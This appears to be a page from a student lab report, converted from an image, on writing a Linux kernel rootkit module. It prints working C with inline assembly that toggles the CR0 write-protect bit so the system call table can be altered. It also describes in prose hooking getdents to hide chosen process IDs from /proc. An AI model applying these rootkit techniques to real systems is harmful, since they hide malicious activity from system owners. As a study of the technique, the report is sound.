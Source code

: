 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
\texttt{Disabling and enabling write protection}: 
We cannot just modify the system call table since it is write protected. 
So we have to disable the write protection before modification.
For this, we found a mechanism to disable the write protection for the whole processor.
By using assembly code we modify \texttt{cr0} register value.

\begin{verbatim}
static void disable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (value & 0x00010000) {
            value &= ~0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}

static void enable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (!(value & 0x00010000)) {
            value |= 0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}
\end{verbatim}

As you can notice in the code, \texttt{cr0} is a control register, 
The 16th bit controls page protection enforcement: 
toggling this bit turns of the write protection for the complete processor.
We can do this in kernel space, because the code is executed at privilege level (ring) 0. 

\subsection{Process Hiding}
The task was to hide process ids, which user enters when inserting the module. 
To check the processes, we can do \texttt{ls} on \texttt{/proc} directory. 
\texttt{ps} also does an \texttt{ls} on \texttt{/proc} folder.   
\texttt{strace} on \texttt{ls} gave us that, it calls getndents and reads each linux\_dirent structures. 
\texttt{d\_reclen} is the length of each structure. 

\begin{verbatim}
int getdents(unsigned int fd, struct linux\_dirent *dirp,
                    unsigned int count);
\end{verbatim}


So to do this we hook \texttt{getdents} system call. 
We first compare if \texttt{fd} matches \texttt{/proc} folder. 
If it matches, then iterate over each entry in the directory.
dirp->d\_name is the name of each entry inside the folder. 
So we first need to convert this char entry to integer and compare with the pid which we want to hide.
If it matches, then we delete the entry. 
\end{document}
